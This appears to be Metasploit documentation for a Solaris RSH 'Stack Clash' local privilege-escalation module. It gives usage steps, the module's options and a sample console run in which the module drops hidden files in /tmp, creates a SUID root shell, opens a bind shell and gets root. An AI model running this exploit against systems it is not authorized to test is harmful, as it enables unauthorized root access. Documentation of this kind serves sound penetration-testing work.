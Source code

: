 ## Description

  This module exploits a vulnerability in RSH on unpatched Solaris
  systems which allows users to gain root privileges.

  The stack guard page on unpatched Solaris systems is of
  insufficient size to prevent collisions between the stack
  and heap memory, aka Stack Clash.

  This module uploads and executes Qualys' Solaris_rsh.c exploit,
  which exploits a vulnerability in RSH to bypass the stack guard
  page to write to the stack and create a SUID root shell.

  This module has offsets for Solaris versions 11.1 (x86) and
  Solaris 11.3 (x86).

  Exploitation will usually complete within a few minutes using
  the default number of worker threads (10). Occasionally,
  exploitation will fail. If the target system is vulnerable,
  usually re-running the exploit will be successful.


## Vulnerable Application

  This module has been tested successfully on:

  * Solaris 11.1 (x86)
  * Solaris 11.3 (x86)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/solaris/local/rsh_stack_clash_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`.

### RSH_PATH

  Path to rsh executable. (default: `/usr/bin/rsh`)

### WORKERS

  Number of workers. (default: `10`)


## Scenarios

### Solaris 11.3 (x86)

  ```
  msf > use exploit/solaris/local/rsh_stack_clash_priv_esc
  msf exploit(solaris/local/rsh_stack_clash_priv_esc) > set session 1
  session => 1
  msf exploit(solaris/local/rsh_stack_clash_priv_esc) > set rhost 172.16.191.221
  rhost => 172.16.191.221
  msf exploit(solaris/local/rsh_stack_clash_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Using target: Solaris 11.3
  [*] Writing '/tmp/.2yZgv2XkEj/.KJqSwhpguh.c' (10297 bytes) ...
  [*] Symlinking /tmp/.2yZgv2XkEj/.KJqSwhpguh to /tmp/.2yZgv2XkEj/ROOT
  [*] Creating suid root shell. This may take a while...
  [*] Completed in 324.21s
  [+] suid root shell created: /tmp/.2yZgv2XkEj/ROOT
  [*] Writing '/tmp/.2yZgv2XkEj/.bWjzWVllCB' (109 bytes) ...
  [*] Executing payload...
  [*] Started bind TCP handler against 172.16.191.221:4444
  [+] Deleted /tmp/.2yZgv2XkEj/.KJqSwhpguh.c
  [+] Deleted /tmp/.2yZgv2XkEj/.KJqSwhpguh
  [!] Tried to delete /tmp/.2yZgv2XkEj/ROOT, unknown result
  [+] Deleted /tmp/.2yZgv2XkEj/.bWjzWVllCB
  [+] Deleted /tmp/.2yZgv2XkEj

  id
  uid=0(root) gid=0(root) groups=10(staff)
  uname -a
  SunOS solaris 5.11 11.3 i86pc i386 i86pc
  cat /etc/release
                               Oracle Solaris 11.3 X86
    Copyright (c) 1983, 2015, Oracle and/or its affiliates.  All rights reserved.
                              Assembled 06 October 2015

  ```


